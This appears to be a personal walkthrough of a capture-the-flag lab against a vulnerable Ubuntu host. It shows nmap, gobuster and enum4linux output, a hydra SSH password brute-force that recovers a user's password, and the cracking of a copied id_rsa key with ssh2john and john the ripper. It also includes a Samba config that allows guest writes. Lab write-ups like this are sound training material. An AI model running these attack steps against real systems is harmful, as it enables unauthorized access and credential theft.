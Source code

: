 # Basinc Pentesting

# Scanning
Nmap scan report for 10.10.72.158    
22/tcp    open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)  
80/tcp    open     http        Apache httpd 2.4.18 ((Ubuntu))  
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
417/tcp   filtered onmux  
445/tcp   open     netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  
8009/tcp  open     ajp13       Apache Jserv (Protocol v1.3)  
8080/tcp  open     http        Apache Tomcat 9.0.7  
21571/tcp filtered unknown  
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel  <br>
Host script results:  <br>
|_clock-skew: mean: 1h19m59s, deviation: 2h18m35s, median: -1s  <br>
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)  <br>
| smb-os-discovery:  <br>
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)  <br>
|   Computer name: basic2  <br>
|   NetBIOS computer name: BASIC2\x00  <br>
|   Domain name: \x00  <br>
|   FQDN: basic2  <br>
|_  System time: 2020-05-16T06:26:50-04:00  <br>
| smb-security-mode:  <br>
|   account_used: guest  <br>
|   authentication_level: user  <br>
|   challenge_response: supported  <br>
|_  message_signing: disabled (dangerous, but default)  <br>
| smb2-security-mode:  <br>
|   2.02:  <br>
|_    Message signing enabled but not required  <br>
| smb2-time:  <br>
|   date: 2020-05-16T10:26:50  <br>
|_  start_date: N/A  <br>

#Gobuster

##Gobuster Command : gobuster dir -u {ip} -w {password-list-path}

##Gobuster Result : <br>
Gobuster v3.0.1<br>
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)<br>
[+] Url:            http://10.10.72.158/<br>
[+] Threads:        10<br>
[+] Wordlist:       directory_guessing_list.txt<br>
[+] Status codes:   200,204,301,302,307,401,403<br>
[+] User Agent:     gobuster/3.0.1<br>
[+] Timeout:        10<br>

2020/05/16 19:42:16 Starting gobuster<br>
/development (Status: 301)<br>


# Samba installation in my mac
this is for enum4linx install guide.  

1. should be installed 'macport'

2. for samba installed command use this :
sudo port install bind9 gnutls readline talloc popt

3. after macport dependencies below command : 
sudo port install samba3

4. write the : /opt/local/etc/samba3/samba.conf. <br>
[Office Admin]. <br>
comment = Office Admin. <br> 
path = /Volumes/Server Data RAID/Office Admin. <br>
available = yes. <br>
guest ok = yes. <br>
create mask = 644. <br>
directory mask = 755. <br>
read only = no. <br>

# Samba Enumeration Result : 
WARNING: polenum.py is not in your path.  Check that package is installed and your PATH is sane.  
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat May 16 22:08:45 2020  

 ==========================  
|    Target Information    |  
 ==========================  
Target ........... 10.10.28.75  
RID Range ........ 500-550,1000-1050  
Username ......... ''  
Password ......... ''  
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none  
...  
***S-1-22-1-1000 Unix User\kay (Local User)***<br>
***S-1-22-1-1001 Unix User\jan (Local User)***<br>

 ============================================  
|    Getting printer info for 10.10.28.75    |  
 ============================================  
No printers returned.  


# Password Guessing : 
## Command : hydra -l jan -P password-guessing-list.txt ssh://10.10.28.75/ <br> 

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-16 23:17:58  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is   recommended to reduce the tasks: use -t 4  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task  
[DATA] attacking ssh://10.10.28.75:22/  


[STATUS] 142.00 tries/min, 142 tries in 00:01h, 14344256 to do in 1683:36h, 16 active  
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 14344062 to do in 2134:32h, 16 active  
[STATUS] 105.14 tries/min, 736 tries in 00:07h, 14343662 to do in 2273:41h, 16 active  
***[22][ssh] host: 10.10.28.75   login: jan   password: armando***<br>  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-16 23:25:25  

# Privilege Escalate 
Linpeas is privilege escalate tool<br>
[+] Linpeas <br>
  1. id_rsa copyit  
  2. ssh2john.py crack it    
  ./ssh2john.py /Users/scops/tools/hacking_project/thm/Basic_Pentesting/kay_id_rsa > forjohn.txt


# Using the john !
***How to use "john the ripper"*** <br>
john forjohn.txt --wordlist=/Users/scops/tools/password_guessing_list.txt <br>

